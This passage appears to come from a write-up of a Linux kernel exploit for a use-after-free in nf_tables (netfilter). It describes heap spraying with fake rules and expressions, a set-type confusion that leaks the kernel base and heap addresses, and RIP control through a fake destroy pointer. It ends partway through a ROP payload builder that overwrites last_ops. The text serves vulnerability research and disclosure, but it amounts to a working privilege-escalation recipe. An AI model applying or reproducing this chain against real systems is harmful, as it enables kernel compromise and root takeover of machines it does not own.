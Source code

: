 ```c
static inline struct nft_set_ext *nft_set_elem_ext(const struct nft_set *set,
						   void *elem)
{
	return elem + set->ops->elemsize;                       // [12]
}
```

- Spray rhash sets `Set_Spray_n`. When destroying an `nf_tables_set_elem_destroy` element, `nft_set_ext` is used [10], and `nft_set_ext` is retrieved by referencing `set->ops->elemsize` [12]. Thus, a rhash set with `elemsize` of 8 is overwritten by an rbtree set with `elemsize` of 24, causing the `nft_set_elem_expr_destroy` to reference the wrong `nft_set_ext`. We manipulate the offset to destroy the `immedieate expr` in `Rule_Victim_n`, that is allocated after the element, in [11]. This frees `Rule_Victim2_n` of `Chain_Victim2_n` in the `nft_immediate_destroy`. However, `Chain_Victim2_n` and `Rule_Victim2_n` remain accessible.
- Spray fake rules using `nft_table->udata` into freed `Rule_Victim2_n` (`kmalloc-cg-192`). Set `nft_rule->udata` of the fake rule to 1 and `nft_rule->udata->len` to 0xff.
- Get the fake rule will read 0xff bytes start from `nft_rule->udata`. As a result, we can obtain kbase (`nft_last_ops`) and heap address (`nft_rule.list.next` and `nft_rule.list.prev`) of `Rule_Targret_n`.

#### RIP Control

- Create two chains, `Base`, `Vulnerable`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create an anonymous rbtree set `Set_Victim`.
- Create a set element in set `Set_Victim`. The element is allocated in `kmalloc-cg-256`.
- Spray fake exprs using `table->udata` in `kmalloc-cg-256`.
- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with a `lookup expr` referencing the `Set_Victim`.
- Delete the `R1`. This results in `Set_Victim` being free from the destroy phase.
- Delete the set element in `Set_Victim`. This results in a UAF that references `Set_Victim` that was freed in previous step.
- Create rhash sets `Set_Spray_n`. As a result, the RIP is controlled by referencing the fake expr in the `nf_tables_expr_destroy` [13].

```c
static void nf_tables_expr_destroy(const struct nft_ctx *ctx,
				   struct nft_expr *expr)
{
	const struct nft_expr_type *type = expr->ops->type;

	if (expr->ops->destroy)
		expr->ops->destroy(ctx, expr);      //  [13]
	module_put(type->owner);
}
```

#### Post RIP

Since RIP control is performed by the destroy worker, we split the ROP into two phases. In the first ROP payload, we overwrite `last_ops` with `fake ops` address.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + last_ops_addr_off;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = heap_addr+0x40;             // fake ops
    data[i++] = kbase + mov_ptr_rdi_rsi;
    data[i++] = kbase + msleep_off;

    data[i++] = 0;
    data[i++] = kbase + push_rbx_pop_rsp_pop_rbp_ret;
    data[i++] = 0;
```